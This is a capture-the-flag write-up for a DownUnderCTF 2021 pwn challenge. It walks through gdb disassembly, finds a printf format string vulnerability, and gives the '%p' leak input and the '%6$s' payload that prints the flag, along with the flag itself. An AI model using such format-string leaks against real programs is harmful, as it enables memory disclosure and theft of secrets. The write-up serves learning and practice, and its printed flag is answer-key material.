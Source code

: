 ## Intro
**Leaking like a sieve** was a pwn challenge at DownUnderCTF 2021.  

You were given a binary to exploit.

## Investigation
`checksec` showed that NX and PIE are enabled for the binary. Following the `ltrace` I learned the flow of the program and found no potential
buffer overflow vulnerability at first sight. I loaded the program into `gdb` and disassembled the `main` function, which was the only function of interest here.

```
...
0x0000000000001201 <+41>:	lea    rsi,[rip+0xe00]        # 0x2008  "r"
0x0000000000001208 <+48>:	lea    rdi,[rip+0xdfb]        # 0x200a  "./flag.txt"
0x000000000000120f <+55>:	call   0x1080 <fopen@plt>
...
0x000000000000125d <+133>:	lea    rax,[rbp-0x50]
0x0000000000001261 <+137>:	mov    esi,0x20
0x0000000000001266 <+142>:	mov    rdi,rax
0x0000000000001269 <+145>:	call   0x1070 <fgets@plt>
0x000000000000126e <+150>:	lea    rdi,[rip+0xe1c]        # 0x2091  "\nHello there, "
0x0000000000001275 <+157>:	mov    eax,0x0
0x000000000000127a <+162>:	call   0x1060 <printf@plt>
0x000000000000127f <+167>:	lea    rax,[rbp-0x50]
0x0000000000001283 <+171>:	mov    rdi,rax
0x0000000000001286 <+174>:	mov    eax,0x0
0x000000000000128b <+179>:	call   0x1060 <printf@plt>
...
```

We can see here that the program reads in the flag from a file somewhere in the beginning. Later, it asks the user for input, which gets stored at `rbp-0x50`,
and prints it out again using `printf`. Using this input as the first and only parameter to `printf` a format string vulnerability
is introduced. We can verify this by inputting some format strings like `%p %p %p %p %p %p %p %p` and see that memory addresses from the programs stack get leaked.

```
(gdb) r
...
What is your name?
%p %p %p %p %p %p %p %p

Hello there, 0x7fffffffbd30 (nil) 0x7ffff7ed6387 0x7fffffffde60 (nil) 0x7fffffffde80 0x5555555592a0 0x7025207025207025

What is your name?
```

## Solution
As it happens the flag is the sixth address stored in the stack so we can print that out by inputting `%6$s`. This format string will interpret the sixth
address on the stack as a string and print it out. Et voila!

```
(gdb) r
...
What is your name?
%6$s

Hello there, DUCTF{f0rm4t_5p3c1f13r_m3dsg!}
```

See [exploit](./exploit.py) for an automation of the exploit written in python.

> DUCTF{f0rm4t_5p3c1f13r_m3dsg!}
